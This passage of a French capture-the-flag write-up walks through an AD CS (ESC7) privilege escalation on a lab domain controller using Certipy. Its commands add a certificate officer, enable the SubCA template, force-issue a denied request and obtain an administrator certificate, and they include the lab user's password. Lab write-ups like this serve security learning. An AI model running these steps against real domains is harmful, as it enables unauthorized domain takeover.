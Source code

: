 - Pour commencer, il faut voir sur qu'on a que les droits `Manage CA`, alors je vais m'octroyer des droits de `Manage Certificates` en ajoutant mon utilisateur en tant que nouvelle agent


```sh
─# certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.170.217
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

- Ensuite je vais activer le template `SubCA` avec le parametre `-enable-template SubCA`, Mais par default ce template est deja activee.

```sh
─# certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.170.217
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```



### L'ATTAQUE
Si nous avons rempli les conditions préalables à cette attaque, nous pouvons commencer par demander un certificat basé sur le modèle `SubCA`.

```sh
└─# certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 'dc01.manager.htb' -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 15
Would you like to save the private key? (y/N) y
[*] Saved private key to 15.key
[-] Failed to request certificate
```

Cette demande a échoué, mais nous a conserver la clé privée(`15.key`) et note l'identifiant de la demande c'est a dire `administrator@manager.htb`.

- Avec nos droits `Manage CA` et `Manage Certificates` nous pouvons alors emettre la demande du Certificat qui a échoué avec le `-issue-request` de Certipy

```sh
└─# certipy ca -ca manager-DC01-CA -issue-request 15  -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'                                        
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
└─# certipy req -ca manager-DC01-CA -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'  -target dc01.manager.htb -retrieve 15                                  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 15
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '15.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
